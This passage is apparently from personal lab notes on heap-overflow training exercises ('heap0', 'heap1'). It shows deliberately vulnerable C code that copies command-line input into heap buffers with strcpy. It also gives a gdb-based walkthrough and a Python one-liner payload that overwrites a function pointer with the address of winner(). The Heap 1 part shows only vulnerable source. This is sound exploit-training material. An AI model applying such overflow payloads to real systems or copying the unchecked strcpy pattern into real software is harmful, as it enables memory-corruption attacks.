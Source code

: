 ```c
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();

}
```

long pattern input from gdb
hit the eip with overwrite the fb() address in the heap `kkkk'
get winner() address with`print winner` in gdb or by `obidumb -t heap0`
replace kkkk with winner addres 0x08048464 >> little indian \x64\x84\x04\x08

```sh
./heap0 `python -c 'print "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ\x64\x84\x04\x08"'`
```

## Heap 1

```c
struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```
